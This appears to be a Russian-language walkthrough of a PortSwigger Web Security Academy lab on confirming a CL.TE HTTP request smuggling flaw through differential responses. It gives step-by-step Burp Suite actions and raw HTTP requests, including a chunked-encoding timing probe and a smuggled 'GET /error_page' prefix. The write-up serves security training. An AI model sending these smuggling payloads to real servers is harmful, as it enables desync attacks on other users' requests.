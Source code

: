 Перейдем на уязвимый ресурс

Перейдем на уязвимый ресурс
Откроем `Proxy` -> `HTTP history`

и отправим в `Repeater` запрос на корневую страницу

Сразу же перейдем на версию HTTP 1.1
и изменим метод запроса на POST 

Тем самым получив такой запрос
```
POST / HTTP/2
Host: 0a8900f00466ac2b81a38f5600c70044.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
и 200 ответ

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/4.%20HTTP%20request%20smuggling%2C%20confirming%20a%20CL.TE%20vulnerability%20via%20differential%20responses/pics%20for%20walkthrough/1.png)

Далее благодаря пикче давайте проверим что где работает

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/4.%20HTTP%20request%20smuggling%2C%20confirming%20a%20CL.TE%20vulnerability%20via%20differential%20responses/pics%20for%20walkthrough/2.png)
```
POST / HTTP/1.1
Host: 0a1f000c040f9a138374462d009b00f0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
```

И получаем `Timeout` - что означает - `CL.TE` связку

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/4.%20HTTP%20request%20smuggling%2C%20confirming%20a%20CL.TE%20vulnerability%20via%20differential%20responses/pics%20for%20walkthrough/3.png)

Отлично, далее сконфигурируем запрос

```
POST / HTTP/1.1
Host: 0a8900f00466ac2b81a38f5600c70044.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Transfer-Encoding: chunked

0

GET /error_page HTTP/1.1
X-ignore: X
```

`Причем после X-ignore: X нет \r\n !`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/4.%20HTTP%20request%20smuggling%2C%20confirming%20a%20CL.TE%20vulnerability%20via%20differential%20responses/pics%20for%20walkthrough/4.png)

и в догонку пошлем 
```
POST / HTTP/1.1
Host: 0a8900f00466ac2b81a38f5600c70044.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/4.%20HTTP%20request%20smuggling%2C%20confirming%20a%20CL.TE%20vulnerability%20via%20differential%20responses/pics%20for%20walkthrough/5.png)

Тем самым, для бекенда наш запрос выглядел как
```
POST / HTTP/1.1
Host: 0a8900f00466ac2b81a38f5600c70044.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Transfer-Encoding: chunked

0

GET /error_page HTTP/1.1
X-ignore: XPOST / HTTP/1.1
Host: 0a8900f00466ac2b81a38f5600c70044.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
Он заигнорил `X-ignore: XPOST / HTTP/1.1`

и фулл запрос для него стал выглядеть как
```
POST / HTTP/1.1
Host: 0a8900f00466ac2b81a38f5600c70044.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Transfer-Encoding: chunked

0

GET /error_page HTTP/1.1
Host: 0a8900f00466ac2b81a38f5600c70044.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

На что он и выдал ошибку, так как /error_page не существует у него 
